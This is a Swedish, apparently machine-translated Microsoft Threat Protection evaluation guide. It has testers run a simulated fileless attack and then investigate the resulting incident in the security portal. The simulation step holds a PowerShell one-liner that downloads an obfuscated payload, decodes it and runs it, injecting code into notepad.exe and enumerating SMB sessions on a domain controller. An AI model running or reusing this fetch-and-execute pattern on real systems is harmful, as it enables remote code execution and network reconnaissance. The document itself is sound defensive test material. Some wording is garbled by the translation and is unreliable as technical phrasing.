# <a name="run-your-microsoft-threat-protection-attack-simulations"></a>Kör dina simuleringar av angrepps skydd för Microsoft Threats  

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


**Gäller för:**
- Microsoft Threat Protection
<br>
<table border="0" width="100%" align="center">
  <tr style="text-align:center;">
    <td align="center" style="width:25%; border:0;" >
      <a href= "https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-plan"> 
        
      <br/>Planer </a><br>
    </td>
    <td align="center">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/prepare-mtpeval">
        
      <br/>Ordning </a><br>
    </td>
    <td align="center"bgcolor="#d5f5e3">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-simulate">
        
      <br/>Simulera attack </a><br>
    </td>
    <td align="center">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-close">
        
      <br/>Stäng och sammanfatta </a><br>
    </td>
  </tr>
  <tr>
    <td style="width:25%; border:0;">
   
    </td>
    <td valign="top" style="width:25%; border:0;">
    
</td>
    <td valign="top" style="width:25%; border:0;">

</td>    
    <td valign="top" style="width:25%; border:0;">

</td>
  </tr>
</table>

Du befinner dig i fasen för att angripen.

När du har utarbetat din pilot miljö är det dags att testa Microsofts hot skydds-och automatiserade undersökningar och reparations funktioner. Vi hjälper dig att simulera en sofistikerad attack som använder avancerade tekniker för att dölja mot identifiering. Angrepps funktionen räknar upp öppnade SMB-sessioner (Server Message Block) på domän kontrol Lanterna och hämtar de senaste IP-adresserna för användarnas enheter. Den här kategorin av attacker inkluderar vanligt vis inte filer som ignorerats på den skadelidandes enhet – de är bara i minnet. De "bor utanför marken" genom att använda befintliga system-och administrations verktyg och injicera sin kod i system processer för att dölja deras utförande, så att de kan Evade identifiering och bevaras på enheten.

I den här simuleringen börjar vårt exempel scenario med ett PowerShell-skript. En användare kan ha svårt att köra ett skript. Eller så kan ett skript köras från en fjärr anslutning till en annan dator från en tidigare infekterad enhet – angriparen försöker flytta på ett senare plats i nätverket. Det kan vara svårt att identifiera dessa skript eftersom administratörer ofta kör skript för att utföra olika administrativa aktiviteter.



Under simuleringen injicerar angreppet shellcode i en Innocent process. I det här scenariot ska vi använda notepad.exe. Vi valde den här processen för simuleringen, men angripare kommer att få mer sannolika en lång tids krävande system process, till exempel svchost.exe. Shellcode väljer sedan för att kontakta angriparens kommando-och-kontroll (C2)-Server för att få anvisningar om hur du ska fortsätta. Dessutom försöker skriptet att köra Reconnaissance frågor mot domän kontrol Lanterna (DC). Då kan en angripare få information om de senaste inloggnings uppgifterna. När angriparen har den här informationen kan de vid ett senare tillfälle gå vidare till ett specifikt känsligt konto

>[!IMPORTANT]
>För optimalt resultat följer du anvisningarna för att simulera angrepp så nära som möjligt.


## <a name="simulation-environment-requirements"></a>System krav för simulering

Eftersom du redan har konfigurerat din pilot miljö under förberedelse fasen bör du kontrol lera att du har två enheter för det här scenariot: en testen het och en domänkontrollant.

1.  Kontrol lera att din klient organisation har [aktiverat Microsoft Threat Microsoft Threat Protection](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service).
2.  Verifiera konfigurationen för din testdomänkontrollant:
    - Enheten körs med Windows Server 2008 R2 eller en senare version.
    - Testa domänkontrollanten till [Avancerat Azure-skydd](https://docs.microsoft.com/azure/security-center/security-center-wdatp) och aktivera [fjärrhantering](https://docs.microsoft.com/windows-server/administration/server-manager/configure-remote-management-in-server-manager).    
    - Kontrol lera att [integreringen med Azure ATP och Microsoft Cloud App](https://docs.microsoft.com/cloud-app-security/aatp-integration) har Aktiver ATS.
    - En test användare skapas på din domän – inga administratörs behörigheter behövs.

3.  Verifiera test enhetens konfiguration:
    <br>
    a.  Enheten körs med Windows 10 version 1903 eller senare.
    <br>
    b.  Testen het är ansluten till test domänen.
    <br>
    c.  [Aktivera Windows Defender Antivirus](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features). Om du har problem med att aktivera Windows Defender Antivirus kan du läsa det här [avsnittet fel sökning](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).
    <br>
    d.  Kontrol lera att test enheten är [inbyggd för Microsoft Defender Avancerat skydd (MDATP)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).

Om du använder en befintlig klient organisation och implementerar enhets grupper skapar du en dedikerad enhets grupp för test enheten och skickar den till toppnivån i konfigurations gränssnittet.


## <a name="run-the-simulation"></a>Kör simuleringen

Så här kör du en simulering av angrepps scenario:

1.  Logga in på test enheten med testet användar konto.

2.  Öppna ett Windows PowerShell-fönster på test enheten.

3.  Kopiera följande simulerings skript:
```
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
= [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
-UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
$decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
$i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
```
>[!NOTE]
>Om du öppnar det här dokumentet i en webbläsare kanske du stöter på problem när du kopierar hela texten utan att förlora vissa tecken eller introducerar extra rad brytningar. Ladda ner det här dokumentet och öppna det i Adobe Reader.

4. När du uppmanas till det klistrar du in och kör det kopierade skriptet.

>[!NOTE]
>Om du kör PowerShell med hjälp av RDP (Remote Desktop Protocol) kan du använda kommandot Skriv Clipboard-text i RDP-klienten eftersom det kanske inte fungerar med **CTRL-V** -kortkommandot eller en högerklickning-metod.  De senaste versionerna av PowerShell accepterar ibland inte den metoden, du kan behöva kopiera till anteckningar i minnet först och sedan klistra in den i PowerShell.

<i>notepad.exe</i> öppnas ett par sekunder. En simulerad attack kod kommer att matas in i notepad.exe. Håll den automatiskt skapade Notepad-instansen öppen så får du hela scenariot.

Den simulerade angreppet försöker kommunicera med en extern IP-adress (som simulerar C2-servern) och sedan försöker Reconnaissance mot domänkontrollanten via SMB.

Du kommer att se ett meddelande som visas på PowerShell-konsolen när det här skriptet är klart.

```
ran NetSessionEnum against [DC Name] with return code result 0      
```

Om du vill se funktionen automatisk incident och svar håller du notepad.exe processen öppen. Du kommer att se automatisk incident och avsluta Anteckningar-processen.


## <a name="investigate-an-incident"></a>Undersök en olycka

>[!NOTE]
>Innan vi vägleder dig via den här simuleringen kan du titta på följande video för att se hur fel söknings hanteringen hjälper dig att ringa upp relaterade meddelanden tillsammans som en del av gransknings processen, där du kan hitta den på portalen och hur den kan hjälpa dig i dina säkerhets åtgärder:

>[!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

Om du växlar till SOC analytiker kan du börja undersöka anslagen i Microsoft 365 Security Center-portalen. 

1.  Öppna [Microsoft 365 Security Center-portalens](https://security.microsoft.com/incidents) incident kö från valfri enhet.

2.  Navigera till **incidenter** från menyn. 

    

3.  Den nya incidenten för det simulerade angreppet visas i incident kön.
 
    


### <a name="investigate-the-attack-as-a-single-incident"></a>Undersök angreppet som en enda olycka

Microsoft Threat Protection korrelerar analyser och sammanställda alla relaterade varningar och undersökningar från olika produkter till en olycka-enhet. Genom att göra så visas ett problem med en bredare attack som gör att SOC analytiker förstår och svarar på komplexa hot.

De notifieringar som genereras under simuleringen är kopplade till samma hot, och som ett resultat aggregeras automatiskt som en enda händelse.

Så här visar du felet:

1.  Gå till kön för **incidenter** .
 
    

2.  Välj det senaste objektet genom att klicka på den cirkel som står till vänster om händelse namnet. En sido panel visar ytterligare information om felet, inklusive alla relaterade aviseringar. Varje händelse har ett unikt namn som beskriver baserat på attributen för de aviseringar Den innehåller.

    

    Aviseringarna som visas i instrument panelen kan filtreras baserat på tjänst resurser: Azure ATP, Microsoft Cloud App Security, Microsoft Defender ATP, Microsoft Threat Protection och Office ATP.  

3.  Välj **Öppna sidan incident** för att få mer information om felet.

    På sidan **incident** kan du se alla aviseringar och information som rör händelsen. Detta inkluderar de enheter och till gångar som ingår i aviseringen, identifierings källan för aviseringarna (Azure ATP, EDR) och anledningen till att de har länkats samman. Om du granskar samtals listan visas meddelandets förlopp. I den här vyn kan du se och undersöka de enskilda varningarna.

    Du kan också klicka på **Hantera incident** från den högra menyn för att tagga händelsen, tilldela den till dig själv och lägga till kommentarer.

    

    


### <a name="review-generated-alerts"></a>Granska genererade aviseringar 

Låt oss titta på några av de varningar som genereras under det simulerade angreppet.

>[!NOTE]
>Vi går igenom bara några av de varningar som genereras under det simulerade angreppet. Beroende på vilken version av Windows och Microsoft Threat Protection-produkterna som körs på din test telefon kan du se fler aviseringar som visas lite annorlunda.

 


**Varning: misstänkt process inmatning (Källa: Microsoft Defender ATP EDR)**

Avancerade angripare använder avancerade och stealthy metoder för att spara i minnet och dölja från detektions verktyg. En gemensam teknik är att fungera i en betrodd system process i stället för en illvillig körbar fil, vilket gör den svår att upptäcka för identifierings verktyg och säkerhets åtgärder för att upptäcka den skadliga koden.

För att SOC-analytikerna ska kunna fånga de här avancerade angreppen ger djup minnes sensorer i Microsoft Defender ATP en vår moln tjänst med oöverträffad insyn i en mängd olika metoder för kod inmatning med flera processer. I följande bild visas hur Microsoft Defender ATP identifieras och visas på försöket att injicera kod för <i>notepad.exe</i>.

 


**Avisering: oväntat beteende som observerats av en process som körs med inga kommando rads argument (Källa: Microsoft Defender ATP EDR)**

Microsoft Defender ATP-identifieringar riktar sig ofta till det vanligaste attributet för en attack teknik. Detta säkerställer hållbarheten och höjer fältet för att angriparen ska kunna växla till nyare taktiker.

Vi använder storskaliga utbildningsinteraktioner för att fastställa normal beteende för vanliga processer i en organisation och över hela världen och titta efter när dessa processer uppvisar avvikelser. Dessa avvikande beteenden indikerar ofta att den extra koden införts och att den körs i en betrodd process.

I det här scenariot uppvisar process <i>notepad.exe</i> onormalt beteende, med kommunikation med en extern plats. Resultatet är oberoende av den specifika metod som används för att introducera och exekvera skadlig kod.

>[!NOTE]
>Eftersom den här aviseringen baseras på datorer som kräver ytterligare Server dels bearbetning kan det ta lite tid innan du ser den här aviseringen i portalen.

Observera att aviserings informationen inkluderar den externa IP-adressen – en indikator som du kan använda för att utöka undersökningen.

Klicka på IP-adressen i rutan aviserings process för att visa sidan med information om IP-adress.

 

I följande bild visas sidan för vald IP-adress (klicka på IP-adress i aviserings process trädet).


**Varning: användare och IP-Reconnaissance (SMB) (Källa: Azure ATP)**

Uppräkning med SMB-protokollet (Server Message Block) gör det möjligt för angripare att få till gång till den senaste inloggnings informationen som hjälper dem att gå via nätverket till ett specifikt känsligt konto.

I den här identifieringen utlöses en avisering när uppräkning av SMB-sessioner körs mot en domänkontrollant.

 


### <a name="review-the-device-timeline-microsoft-defender-atp"></a>Granska enhetens tids linje [Microsoft Defender ATP]
När du har utforskat de olika varningarna i denna olycka navigerar du tillbaka till sidan där du undersökte dig tidigare. Klicka på fliken **enheter** på sidan incident för att granska de enheter som ingår i denna incident enligt rapport från Microsoft Defender ATP och Azure ATP.

Klicka på namnet på den enhet där angreppet gjordes för att öppna enhets sidan för den specifika enheten. På den sidan kan du se aviseringar som utlöstes och relaterade händelser.

Klicka på fliken **tids linje** för att öppna enhetens tids linje och Visa alla händelser och beteenden som observerats på enheten i kronologisk ordning, och blanda med aviseringar.

 

Om du expanderar några av de mer intressanta funktionerna kan du använda viktiga uppgifter, till exempel process träd.

Bläddra ned till exempel tills du hittar varnings händelsen **misstänkt process inmatning**. Klicka på **powershell.exe som du vill använda för att notepad.exe process** under den för att visa hela process trädet för det här beteendet under diagrammet **Event entities** i sidofönstret. Använd Sök fältet för filtrering om det behövs.


### <a name="review-the-user-information-microsoft-cloud-app-security"></a>Granska användar informationen [Microsoft Cloud App Security]

Klicka på fliken **användare** på sidan incident för att visa listan över användare som är involverade i angreppet. Tabellen innehåller ytterligare information om varje användare, inklusive varje användares **gransknings prioritets** poäng.

Klicka på användar namnet för att öppna användarens profil sida där ytterligare undersökningar kan genomföras. [Läs mer om att pröva riskfyllda användare](https://docs.microsoft.com/cloud-app-security/tutorial-ueba#identify).
<br>



## <a name="automated-investigation-and-remediation"></a>Automatisk undersökning och reparation
>[!NOTE]
>Innan vi vägleder dig via den här simuleringen kan du titta på följande video och bekanta dig med vad automatisk återställning är, var du hittar den i portalen och hur den kan hjälpa dig i dina säkerhets åtgärder:

>[!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

Navigera tillbaka till incidenten i Microsoft 365 Security Center-portalen. På fliken **undersökningar** på sidan **incident** visas de automatiska utredningar som utlöstes av Azure ATP och Microsoft Defender ATP. Skärm bilden nedan visar endast den automatiska undersökningen som utlöstes av Microsoft Defender ATP. Som standard åtgärdar Microsoft Defender ATP automatiskt de artefakter som finns i den kö som kräver reparation.


Klicka på aviseringen som utlöste en undersökning för att öppna sidan med **utrednings information** . Du kommer att se följande:
- Larm som utlöste den automatiserade undersökningen.
- Påverkade användare och enheter. Om indikatorer hittas på ytterligare enheter visas dessa ytterligare enheter också.
- Lista över bevis. Entiteterna Funna och analyserade, till exempel filer, processer, tjänster, driv rutiner och nätverks adresser. Dessa enheter analyseras för möjliga relationer till aviseringen och bedöms som ofarligt eller skadligt.
- Hot Funna. Kända hot som hittas under undersökningen.

>[!NOTE]
>Den automatiserade undersökningen kanske fortfarande körs beroende på tids inställningar. Vänta några minuter innan du samlar in och analyserar bevisen och granska resultaten. Uppdatera **gransknings informationen** och få de senaste undersöknings resultaten.



Under den automatiska undersökningen identifierade Microsoft Defender ATP notepad.exe processen, som sattes in som en av artefakterna som kräver reparation. Microsoft Defender ATP stoppar automatiskt den misstänkta process injektionen som en del av den automatiska reparationen. 

Du kan se <i>notepad.exe</i> försvinner från listan med aktiva processer på test enheten.

## <a name="resolve-the-incident"></a>Lös problemet

När undersökningen är fullständig och bekräftad kan du stänga den.

Klicka på **Hantera incident**. Ställ in statusen för att **lösa problemet** och välj relevant klassificering.

När incidenten har åtgärd ATS stänger den alla tillhör ande aviseringar i Microsoft 365 säkerhets Center och i de relaterade portalerna.

 

<br>
Då avbryter du ansöknings simuleringen för samtals hantering och automatisk utredning och scenario. Nästa simulering tar dig via proaktiv hotet mot obehöriga filer. 

## <a name="advanced-hunting-scenario"></a>Avancerat jakt scenario

>[!NOTE]
>Innan vi vägleder dig via simuleringen kan du titta på följande video för att förstå de avancerade jakt begreppen, se var du kan hitta den i portalen och vet hur den kan hjälpa dig i dina säkerhets åtgärder:

>[!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a>Krav för jakt miljön
Det finns en enda intern post låda och enhet för det här scenariot. Du behöver också ett externt e-postkonto för att skicka test meddelandet.

1.  Kontrol lera att din klient organisation har [aktiverat Microsoft Threat Protection](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service).
2.  Identifiera en måldator som ska användas för att ta emot e-post.
    a.  Den här post lådan måste övervakas av Office 365 ATP b.  Enheten från 3] måste ha åtkomst till post lådan
3.  Konfigurera en testen het: a.  Kontrol lera att du använder Windows 10 version 1903 eller senare version.
    b.  Gå med i test enheten till test domänen.
    c.  [Aktivera Windows Defender Antivirus](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features). Om du har problem med att aktivera Windows Defender Antivirus kan du läsa [det här avsnittet fel sökning](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).
    d.  [Internt till Microsoft Defender Avancerat skydd (MDATP)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).

### <a name="run-the-simulation"></a>Kör simuleringen
1.  Från ett externt e-postkonto skickar du ett e-postmeddelande till post lådan som identifieras i steg 2 i avsnittet krav för test miljö. Ta med en bifogad fil som ska tillåtas via befintliga e-postfilter principer.  Denna fil behöver inte vara skadlig eller körbar. Föreslagna filtyper är <i>. pdf</i>, <i>. exe</i> (om det tillåts) eller Office-dokument, till exempel en Word-fil.
2.  Öppna det skickade e-postmeddelandet från enheten som har kon figurer ATS enligt steg 3 i avsnittet test miljö krav. Öppna den bifogade filen eller spara den på enheten.


**Gå med i jakt**
1.  Öppna security.microsoft.com-portalen.
2.  Navigera till **jakt > avancerad jakt**.

     

3.  Skapa en fråga som börjar med att samla in e-posthändelser.
    a.  I fönstret fråga väljer du nytt.
    b.  Dubbelklicka på tabellen EmailEvents från schemat.

```
EmailEvents 
```                                        

   c.   Ändra tids ramen till de senaste 24 timmarna. Förutsatt att e-postmeddelandet du skickade när du körde simuleringen ovan var under de senaste 24 timmarna, annars kan du ändra tids ramen.
    


   d.   Kör frågan.  Du kan ha många resultat beroende på miljön för piloten.  

>[!NOTE]
>Se nästa steg för att filtrera alternativ för att begränsa data returen.

    

>[!NOTE]
>I avancerade jakt visas frågeresultat som tabell data. Du kan också välja att visa data i andra format typer, till exempel diagram.    

   e.   Titta på resultaten och se om du kan identifiera det e-postmeddelande som du har öppnat.  Det kan ta upp till två timmar innan meddelandet visas i en avancerad jakt. Om e-postmiljöen är stor och det finns många resultat kanske du vill använda **alternativet Visa filter** för att hitta meddelandet. 

   I exemplet skickades e-postmeddelandet från ett Yahoo-konto. Klicka på **+** ikonen bredvid **yahoo.com** under avsnittet SenderFromDomain och klicka sedan på **Använd** för att lägga till den markerade domänen i frågan.  Du bör använda den domän eller det e-postkonto som användes för att skicka test meddelandet i steg 1 av kör simuleringen för att filtrera resultaten.  Kör frågan igen för att få en mindre resultat uppsättning för att kontrol lera att meddelandet från simuleringen visas.
   
    


```
EmailEvents 
| where SenderMailFromDomain == "yahoo.com"
```

   f.   Klicka på de resulterande raderna i frågan så att du kan kontrol lera posten.
